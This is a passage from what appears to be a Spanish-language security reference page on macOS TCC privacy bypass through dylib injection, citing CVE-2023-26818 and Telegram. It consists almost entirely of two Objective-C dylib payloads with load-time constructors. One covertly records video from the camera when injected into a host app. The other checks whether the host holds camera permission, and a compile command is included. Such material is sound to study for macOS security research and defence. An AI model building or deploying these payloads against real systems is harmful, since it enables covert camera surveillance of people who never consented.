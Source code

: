 ```objectivec
if (error) {
NSLog(@"Recording failed: %@", [error localizedDescription]);
} else {
NSLog(@"Recording finished successfully. Saved to %@", outputFileURL.path);
}
}
@end
__attribute__((constructor))
static void myconstructor(int argc, const char **argv) {
freopen("/tmp/logs.txt", "a", stderr);
VideoRecorder *videoRecorder = [[VideoRecorder alloc] init];
[videoRecorder startRecording];
[NSThread sleepForTimeInterval:3.0];
[videoRecorder stopRecording];
[[NSRunLoop currentRunLoop] runUntilDate:[NSDate dateWithTimeIntervalSinceNow:3.0]];
fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="ObjectiveC - Verificación" %}
Verifica si el programa tiene acceso a la cámara.
```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
// Code from https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4

@interface CameraAccessChecker : NSObject
+ (BOOL)hasCameraAccess;
@end
@implementation CameraAccessChecker
+ (BOOL)hasCameraAccess {
AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeVideo];
if (status == AVAuthorizationStatusAuthorized) {
NSLog(@"[+] Access to camera granted.");
return YES;
} else {
NSLog(@"[-] Access to camera denied.");
return NO;
}
}
@end
__attribute__((constructor))
static void telegram(int argc, const char **argv) {
freopen("/tmp/logs.txt", "a", stderr);
[CameraAccessChecker hasCameraAccess];
fclose(stderr); // Close the file stream
}
```
{% endtab %}
